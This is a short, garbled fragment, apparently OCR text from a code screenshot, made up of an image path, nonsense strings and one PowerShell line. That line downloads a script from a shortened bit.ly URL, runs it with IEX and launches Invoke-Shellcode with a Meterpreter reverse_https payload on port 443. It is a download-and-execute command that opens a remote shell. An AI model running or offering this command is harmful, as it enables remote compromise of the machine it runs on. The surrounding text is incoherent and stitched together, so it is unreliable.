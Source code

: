 check
=====
GGGHHHJJJ_no

FocusmazmanFocus


RunIEX (New-Object Net.WebClient).DownloadString('http://bit.ly/14bZZ0c');Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lport 443 -Force -Lhost Run

